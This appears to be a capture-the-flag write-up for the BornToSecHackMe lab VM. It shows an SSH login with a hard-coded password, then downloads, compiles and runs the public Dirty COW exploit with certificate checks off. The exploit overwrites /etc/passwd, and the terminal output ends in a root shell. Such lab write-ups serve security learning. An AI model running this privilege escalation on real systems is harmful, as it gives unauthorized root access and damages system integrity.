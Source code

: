 # Dirty Cow

we have also mounted the VM on the host in order to have access to its content

``` bash
sudo mkdir /mnt/iso /mnt/fs

┌──(kali㉿kali)-[~]
└─$ sudo mount -o loop ~/Downloads/BornToSecHackMe-v1.1.iso /mnt/iso
mount: /mnt/iso: WARNING: source write-protected, mounted read-only.

┌──(kali㉿kali)-[/mnt/iso/casper]
└─$ sudo mount -o loop /mnt/iso/casper/filesystem.squashfs  /mnt/fs/ -t squashfs                
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ ls -l /mnt/iso/
total 10
dr-xr-xr-x 2 root root 2048 Jun 16  2017 casper
dr-xr-xr-x 2 root root 2048 Jun 16  2017 install
dr-xr-xr-x 2 root root 2048 Jun 16  2017 isolinux
-r--r--r-- 1 root root  844 Jun 16  2017 md5sum.txt
dr-xr-xr-x 2 root root 2048 Jun 16  2017 preseed
-r--r--r-- 1 root root  201 Jun 16  2017 README.diskdefines
-r--r--r-- 1 root root    0 Jun 16  2017 ubuntu

┌──(kali㉿kali)-[~]
└─$ ls -l /mnt/fs/
total 0
drwxr-xr-x   2 root     root 2734 Oct 13  2015 bin
drwxr-xr-x   3 root     root  274 Oct 13  2015 boot
drwxr-xr-x   2 root     root   30 Jun 16  2017 dev
drwxr-xr-x 100 root     root 3295 Jun 16  2017 etc
drwxrwx--x   9 www-data root  126 Oct 13  2015 home
lrwxrwxrwx   1 root     root   37 Oct  7  2015 initrd.img -> /boot/initrd.img-3.2.0-91-generic-pae
drwxr-xr-x  22 root     root 1420 Oct 13  2015 lib
drwxr-xr-x   3 root     root   28 Jun 16  2017 media
drwxr-xr-x   2 root     root    3 Jun 16  2017 mnt
drwxr-xr-x   2 root     root    3 Oct  7  2015 opt
drwxr-xr-x   2 root     root    3 Jun 16  2017 proc
drwx------   5 root     root  150 Oct 15  2015 root
drwxr-xr-x   2 root     root    3 Jun 16  2017 run
drwxr-xr-x   2 root     root 3446 Oct 13  2015 sbin
drwxr-xr-x   2 root     root    3 Mar  5  2012 selinux
drwxr-xr-x   3 root     root   26 Oct  7  2015 srv
drwxr-xr-x   2 root     root    3 Jun 16  2017 sys
drwxrwxrwt   2 root     root    3 Jun 16  2017 tmp
drwxr-xr-x  10 root     root  174 Oct  7  2015 usr
drwxr-xr-x  13 root     root  196 Jun 16  2017 var
lrwxrwxrwx   1 root     root   33 Oct  7  2015 vmlinuz -> boot/vmlinuz-3.2.0-91-generic-pae

```

As we saw in the [writeup3][1]

[1]: /bonus/writeup3.md
we have password for user 'laurie' to login in ssh:

```
sshpass -p "330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4" ssh laurie@172.20.10.8 
```
we copy the source code of exploit find in [Exploit DB](https://www.exploit-db.com/exploits/40847)

This exploit uses the [pokemon](https://github.com/dirtycow/dirtycow.github.io/blob/master/pokemon.c) exploit of the dirtycow vulnerability as a base generates a new passwd line. The user will be prompted for the new password when the binary is run. The original /etc/passwd file is then backed up to /tmp/passwd.bak and overwrites the root account with the generated line. After running the exploit you should be able to login with the newly created user.

```console
wget --no-check-certificate https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
```
Compile with:
```
   gcc -pthread dirty.c -o dirty -lcrypt
```
Then run the newly create binary by either doing:
```
   ./dirty "my-new-password"
```

```
laurie@BornToSecHackMe:~$ wget --no-check-certificate https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
--2022-03-14 19:58:50--  https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4815 (4.7K) [text/plain]
Saving to: `dirty.c'

100%[====================================================>] 4,815       --.-K/s   in 0.001s  

2022-03-14 19:58:50 (3.66 MB/s) - `dirty.c' saved [4815/4815]

laurie@BornToSecHackMe:~$ gcc -pthread dirty.c -o dirty -lcrypt
laurie@BornToSecHackMe:~$ ./dirty "lol"
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: lol
Complete line:
firefart:fii4ulI./W5Fk:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'lol'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'lol'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ 
laurie@BornToSecHackMe:~$ su -
Password: 
firefart@BornToSecHackMe:~# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@BornToSecHackMe:~# 

```